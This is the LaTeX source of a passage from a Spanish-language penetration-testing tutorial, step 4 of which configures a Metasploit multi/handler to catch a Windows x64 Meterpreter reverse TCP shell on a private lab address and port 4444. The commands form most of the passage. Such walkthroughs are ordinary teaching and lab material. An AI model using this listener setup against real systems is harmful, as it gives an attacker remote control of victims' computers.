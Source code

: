 \documentclass[
  jou,
  floatsintext,
  longtable,
  a4paper,
  nolmodern,
  notxfonts,
  notimes,
  colorlinks=true,linkcolor=blue,citecolor=blue,urlcolor=blue]{apa7}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\NormalTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.37,0.37,0.37}{#1}}
\begin{document}
La opción \texttt{-q} es para iniciar Metasploit en modo silencioso.

\section{Paso 4: Configurar el Exploit
Handler}\label{paso-4-configurar-el-exploit-handler}

En la consola de Metasploit, seguimos estos pasos:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  \textbf{Seleccionar el handler}:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{\textgreater{}}\NormalTok{ use exploit/multi/handler}
\end{Highlighting}
\end{Shaded}

  Esto indica que usaremos el módulo handler para gestionar la conexión
  entrante.
\item
  \textbf{Configurar el payload}:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{\textgreater{}}\NormalTok{ set payload windows/x64/meterpreter/reverse\_tcp}
\end{Highlighting}
\end{Shaded}
\item
  \textbf{Establecer el LHOST y LPORT}:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{\textgreater{}}\NormalTok{ set lhost 192.168.122.152}
\ExtensionTok{msf6} \OperatorTok{\textgreater{}}\NormalTok{ set lport 4444}
\end{Highlighting}
\end{Shaded}
\item
  \textbf{Verificar las opciones}:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6} \OperatorTok{\textgreater{}}\NormalTok{ show options}
\end{Highlighting}
\end{Shaded}

  Esto muestra todas las opciones configuradas para asegurar que todo
  esté correcto.
\end{enumerate}
\end{document}
